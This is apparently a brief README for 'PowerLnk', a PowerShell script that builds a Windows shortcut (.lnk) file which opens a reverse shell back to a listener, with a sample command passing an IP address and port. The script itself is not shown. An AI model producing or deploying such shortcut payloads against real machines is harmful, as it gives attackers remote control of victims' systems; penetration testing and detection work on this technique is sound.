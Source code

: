 # PowerLnk
generates a .Lnk file that executes a reverse shell in powershell

# Useage
script take two parameters -ip and -port where ip and port are the port you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443
